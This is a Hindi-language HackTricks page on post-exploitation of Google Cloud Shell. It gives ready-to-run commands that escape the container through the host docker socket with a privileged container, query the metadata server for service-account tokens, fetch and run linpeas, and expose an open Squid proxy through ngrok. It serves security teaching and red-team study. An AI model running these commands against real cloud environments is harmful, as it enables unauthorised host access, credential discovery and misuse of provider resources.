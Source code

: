 # GCP - क्लाउड शैल पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

हैकट्रिक्स का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन हैकट्रिक्स में देखना चाहते हैं या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को PR जमा करके।
* &#x20;github रेपो।

</details>

## क्लाउड शैल

क्लाउड शैल के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### कंटेनर एस्केप

ध्यान दें कि Google क्लाउड शैल एक कंटेनर के अंदर चलता है, आप **आसानी से मेज़बान की ओर बाहर निकल सकते हैं** इस तरह: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह google द्वारा एक विकल्प माना नहीं जाता है, लेकिन यह आपको उस वातावरण में क्या हो रहा है का एक व्यापक दृश्य प्रदान करता है।

इसके अतिरिक्त, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन खोज सकते हैं: 

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

लिनपीएस के साथ मेटाडेटा की जांच करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

गिथब का उपयोग करने के बाद [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) सेवा खाते के टोकन के साथ **कोई अनुमति खोजी नहीं गई**...

### प्रॉक्सी के रूप में उसका उपयोग करें

यदि आप अपने गूगल क्लाउड शैल इंस्टेंस को प्रॉक्सी के रूप में उपयोग करना चाहते हैं तो निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
केवल आपको बताने के लिए, Squid एक http प्रॉक्सी सर्वर है। निम्नलिखित सेटिंग्स के साथ एक **squid.conf** फ़ाइल बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
कॉपी करें **squid.conf** फ़ाइल को **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएं:
```bash
sudo service squid start
```
बाहर से प्रॉक्सी को उपलब्ध करने के लिए ngrok का उपयोग करें:
```bash
./ngrok tcp 3128
```
चलाने के बाद, tcp:// url की कॉपी करें। अगर आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं तो सुझाव दिया जाता है कि tcp:// हिस्सा और पोर्ट को हटा दें और पोर्ट को अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में डालें (squid एक http प्रॉक्सी सर्वर है)।

स्टार्टअप के लिए बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित लाइन होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
इन निर्देशों को [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) से कॉपी किया गया था। किसी भी प्रकार के सॉफ्टवेयर (डेटाबेस और यहाँ तक कि विंडोज) को क्लाउड शैल में चलाने के लिए अन्य पागल विचारों के लिए उस पेज की जाँच करें।

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
